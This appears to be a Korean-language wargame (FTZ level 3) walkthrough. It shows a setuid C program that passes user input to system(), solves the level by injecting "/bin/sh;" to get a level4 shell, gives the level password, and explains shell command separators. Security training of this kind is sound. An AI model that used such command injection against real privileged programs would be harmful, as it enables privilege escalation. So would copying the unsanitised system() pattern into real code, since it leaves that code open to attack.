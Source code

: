 # FTZ 3  
## 문제 설명  
다음 코드는 autodig의 소스이다.  

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );        // 문자열 복사, 두번째 인자를 첫번째 인자로 덮어쓰기 복사
    strcat( cmd, argv[1] );        // 문자열 덧붙이기, 두번째 인자를 첫번째 인자(문자열)에 덧붙인다
    strcat( cmd, " version.bind chaos txt");

    system( cmd );                 // 시스템 명령어 실행

}
```  
이를 이용하여 level4의 권한을 얻어라.  
  
more hints.  
- 동시에 여러 명령어를 사용하려면?  
- 문자열 형태로 명령어를 전달하려면?  

## 문제 풀이  
### 풀이 과정  
1. 문제 해석  
autodig 프로그램의 인자 값은 프로그램 이름 포함 2개가 필요하다.  
cmd 배열에 'dig @[인자값] version.bind chaos txt'를 저장하고 system 함수에 전달해서 실행한다.  
2. 아무리 둘러봐도 autodig란 함수가 없다. find 명령어를 통해 auto dig를 찾자.  
```find / -name "autodig" 2> /dev/null```  
그러자 ```/bin/autodig``` 란 경로가 나타난다.  

3. autodig가 어떤 파일인지 확인해보자!!  
```find / -user level4 -perm -4000 2>/dev/null```  
소유주가 level4이고 setuid가 설정된 파일을 검색하니 ```/bin/autodig``` 파일이 출력되었다!  

4. /bin/경로로 이동하여 autodig 프로그램을 실행한다. 그 후 아무 문자열이나 넣어서 해당 프로그램을 실행시켜보자.  
```cd /bin```  
```./autodig asdf```  
asdf를 따옴표로 묶지 않아서 asdf란 service를 실행시키게 된다.  
> **dig [@server] [domain] [query type]**  
> dig는 Domain Information Groper의 약자로 DNS로부터 정보를 가져올 수 있는 툴이다.  DNS 네임서버 구성과 도메인 설정이 완료된 후, 일반 사용자의 입장에서 설정한 도메인 네임에 대한 DNS 질의응답이 정상적으로 이루어지는지를 확인 점검하는 경우에 많이 사용한다.  

5. 네임서버 정보 확인은 우리가 의도한 방향이 아니므로, 힌트를 확인해서 다시 풀어보자.  
* 동시에 명령어를 사용하려면 세미콜론(;)로 구분해주면되고,  
* 문자열 형태로 명령어를 전달하려면 double quote("")로 명령어를 묶어주면 된다.  

5. level4의 권한을 얻으려면 우선 쉘을 획득해야 하므로 /bin/sh 명령어가 들어가야 할 것이다.  
```./autodig "/bin/sh;"```  
그럼 쉘이 떨어진다! 그리고 비밀번호를 알아내는 명령어는 FTZ에서 my-pass이므로 ```my-pass```를 입력하면  
비밀번호 "such my brain"이 나온다!  

## 연관된 정보들  
* dig  
* 다중 명령어  
1. 세미콜론(;)  
하나의 명령어 라인에서 여러 개의 명령을 실행(하나의 명령어 다음에 추가)  
첫 번째 명령이 실패하여도 두 번째 명령은 반드시 실행이 됨  

2. 파이프(|)  
앞에서 나온 명령 결과를 두 번째 명령에서 사용  

3. 더블 엠퍼센드(&&)  
첫 번째 명령이 에러 없이 정상적으로 종료했을 경우에만 두 번째 명령을 수행  

4. 더블 버티컬바(||)  
첫 번째 명령의 결과에서 에러가 발생하더라도 각각의 모든 명령을 수행  


